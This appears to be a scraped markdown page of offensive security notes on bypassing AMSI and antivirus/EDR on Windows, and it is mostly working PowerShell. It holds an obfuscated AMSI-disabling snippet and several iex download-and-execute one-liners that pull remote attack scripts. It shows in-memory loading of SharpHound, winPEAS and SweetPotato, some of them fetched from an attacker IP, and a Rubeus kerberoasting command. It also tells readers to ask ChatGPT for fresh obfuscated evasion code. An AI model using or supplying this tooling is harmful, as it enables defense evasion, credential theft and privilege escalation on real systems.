 # AMSI Bypass

## AV and EDR Bypass

> If this is detected by Defender, you can request another obfuscated code from our slave (ChatGPT).

```powershell
$a = 'System.Management.Automation.' + 'Am' + 'siUt' + 'ils';
$b = [Ref].Assembly.GetType($a);
$c = $b.GetField('am' + 'siCo' + 'ntext', [Reflection.BindingFlags]'NonPublic,Static');
$d = $c.GetValue($null);
[Runtime.InteropServices.Marshal]::WriteInt32($d, 0x41 + 0x42 + 0x43 + 0x44);
```

After that, you can use another AMSI bypass to execute EXEs.

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```powershell
# Using Hardoware breackpoint in this case
# https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#using-hardware-breakpoints
# Simply copy and paste
```

Now you can import the binaries and binaries detected by AV and run commands with PowerSharpPack tool

> If you have no access to the internet, you can change the URL to an internal Kali.

```powershell
# Import tools
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpPack.ps1')
PowerSharpPack -seatbelt -Command "AMSIProviders"
PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"
# or import just one file per tool
iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/raw/refs/heads/master/PowerSharpBinaries/<file>.ps1')
# Here you can use
Invoke-Certify -Command ""
# ...
Invoke-Rubeus -Command ""
# and so on
```

Also you can create a exe to ps1 file and execute it, we create Invoke-Bloodhound.ps1

```powershell
.\GzipB64.exe C:\Users\MALDEV01\Downloads\SharpHound-v2.5.13\SharpHound.exe
# Save base64 code
```

```powershell
function Invoke-BloodHound
{
    [CmdletBinding()]
    Param (
        [String]
        $Command = " "

    )
    $a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String("<insert base64 code here>"))
    $decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress)
    $output = New-Object System.IO.MemoryStream
    $decompressed.CopyTo( $output )
    [byte[]] $byteOutArray = $output.ToArray()
    $RAS = [System.Reflection.Assembly]::Load($byteOutArray)

    # Setting a custom stdout to capture Console.WriteLine output
    # https://stackoverflow.com/questions/33111014/redirecting-output-from-an-external-dll-in-powershell
    $OldConsoleOut = [Console]::Out
    $StringWriter = New-Object IO.StringWriter
    [Console]::SetOut($StringWriter)

    [AnschnallGurt.Program]::Main($Command)

     # Restore the regular STDOUT object
    [Console]::SetOut($OldConsoleOut)
    $Results = $StringWriter.ToString()
    $Results
}
```

### Run EXEs

```powershell
$data=(New-Object System.Net.WebClient).DownloadData('https://github.com/peass-ng/PEASS-ng/releases/download/20250110-31084f44/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
# Potato
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','c:\temp\runme.bat')
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[SweetPotato.Program]::Main(@('-p=C:\temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()
```


## Option 1 (Detected by AV)

- https://github.com/V-i-x-x/AMSI-BYPASS/


```powershell
IEX (New-Object System.Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/main/POC.ps1
’); MagicBypass -InitialStart 0x50000
```